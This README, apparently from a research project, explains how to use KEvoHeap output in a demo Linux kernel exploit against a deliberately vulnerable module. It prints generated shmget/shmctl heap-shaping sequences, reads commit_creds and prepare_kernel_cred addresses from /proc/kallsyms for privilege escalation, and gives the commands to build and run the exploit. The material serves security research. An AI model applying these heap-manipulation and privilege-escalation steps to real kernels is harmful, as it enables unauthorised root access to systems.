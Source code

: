 # Example Exploit

The demo exploit `./exploit/demo_exploit_with_noise.c` performs heap layout manipulation to shape the heap into an exploitable state. It uses the `shmget/shmctl` system calls to allocate objects in the kmalloc-256 cache. These calls trigger (de)allocations of `struct shmid_kernel` objects, which are of appropriate size. A suiting series of allocations and deallocations can be found with KEvoHeap. To do this, follow the steps under "Run KEvoHeap+QEMU+BPFTrace" in [RUNNING_KEVOHEAP.md](https://github.com/fkie-cad/Algorithmic-Heap-Layout-Manipulation-in-the-Linux-Kernel/blob/main/RUNNING_KEVOHEAP.md). 

KEvoHeap will generate candidates consisting of calls to the kernel module and `shmget/shmctl`, which will then be inserted into a general corpus programm which takes care of setup and teardown (cf. [/hlm.template](https://github.com/fkie-cad/Algorithmic-Heap-Layout-Manipulation-in-the-Linux-Kernel/blob/main/hlm.template)). The generated candidates are then build and executed in the QEMU VM. The distance of the target objects gets extracted via `bpftrace` and fed back to KEvoHeap. When a correct sequence has been found, it can be used in an exploit to perform the neccessary allocations to place both target objects next to each other. For testing, you can use one of the demo exploits and replace the existing allocation directives with the sequence found by KEvoHeap.


### Use result from KEvoHeap

A result from KEvoHeap could look like this:
```bash
$./bpf_evo_runner.sh
[*] Starting try number 1
...
Ping...
Ping...
Ping...
Ping...
...
Ping...
Ping...
Ping...
Ping...
Going into next gen after 72 tries
[!] Found solution!
int fengshui318 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui573 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui956 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui628 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui230 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui1249 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui569 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui1518 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui984 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui956, IPC_RMID, NULL);
shmctl(fengshui984, IPC_RMID, NULL);
shmctl(fengshui569, IPC_RMID, NULL);
shmctl(fengshui230, IPC_RMID, NULL);
sleep(1);
int fengshui370 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui318, IPC_RMID, NULL);
shmctl(fengshui1249, IPC_RMID, NULL);
sleep(1);
int fengshui1608 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui628, IPC_RMID, NULL);
sleep(1);
int fengshui1319 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui1518, IPC_RMID, NULL);
sleep(1);
int fengshui189 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui573, IPC_RMID, NULL);
shmctl(fengshui1608, IPC_RMID, NULL);
sleep(1);
int fengshui625 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui1319, IPC_RMID, NULL);
shmctl(fengshui189, IPC_RMID, NULL);
sleep(1);
int fengshui1253 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui934 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui625, IPC_RMID, NULL);
shmctl(fengshui370, IPC_RMID, NULL);
shmctl(fengshui934, IPC_RMID, NULL);
shmctl(fengshui1253, IPC_RMID, NULL);
sleep(1);
int fengshui61 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
ioctl(fd, VULN_ALLOC_OVERFLOW);
ioctl(fd, VULN_ALLOC_TARGET);

Fitness: 256
```

This solution can now be used in `demo_exploit_with_noise.c` for the function `do_heap_layout_manipulation(int fd)`. This means we will exchange the given content from `do_heap_layout_manipulation(int fd)` with the result from KEvoHeap:
```bash
$ vim +161 demo_exploit_with_noise.c
...
void do_heap_layout_manipulation(int fd){
    # remove the content and change it to
}
...
void do_heap_layout_manipulation(int fd){
	int fengshui318 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui573 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui956 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui628 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui230 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui1249 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui569 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui1518 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui984 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui956, IPC_RMID, NULL);
	shmctl(fengshui984, IPC_RMID, NULL);
	shmctl(fengshui569, IPC_RMID, NULL);
	shmctl(fengshui230, IPC_RMID, NULL);
	sleep(1);
	int fengshui370 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui318, IPC_RMID, NULL);
	shmctl(fengshui1249, IPC_RMID, NULL);
	sleep(1);
	int fengshui1608 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui628, IPC_RMID, NULL);
	sleep(1);
	int fengshui1319 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui1518, IPC_RMID, NULL);
	sleep(1);
	int fengshui189 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui573, IPC_RMID, NULL);
	shmctl(fengshui1608, IPC_RMID, NULL);
	sleep(1);
	int fengshui625 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui1319, IPC_RMID, NULL);
	shmctl(fengshui189, IPC_RMID, NULL);
	sleep(1);
	int fengshui1253 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui934 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui625, IPC_RMID, NULL);
	shmctl(fengshui370, IPC_RMID, NULL);
	shmctl(fengshui934, IPC_RMID, NULL);
	shmctl(fengshui1253, IPC_RMID, NULL);
	sleep(1);
	int fengshui61 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	ioctl(fd, VULN_ALLOC_OVERFLOW);
	ioctl(fd, VULN_ALLOC_TARGET);
}

```


### Update addresses

The hard coded adresss of `commit_creds` and `prepare_kernel_cred` needs to be updated with the current running kernel as written in the function `escalate_privs(void)`. Normally these addresses should be resolved dynamically but in this case we want to focus on the heap layout manipulation.

```bash
$ sudo grep "T commit_creds" /proc/kallsyms
ffffffffb16effc0 T commit_creds 
$ sudo grep "T prepare_kernel_cred" /proc/kallsyms
ffffffffb16f0290 T prepare_kernel_cred
```

Next we can update the adresses:
```bash
$ vim +102 demo_exploit_with_noise.c
```

### Run exploit

Now after we updated the results compile the exploit and run it:
```bash
$ make noise
gcc demo_exploit_with_noise.c  -o demo_exploit_with_noise -static
$ ./demo_exploit_with_noise
```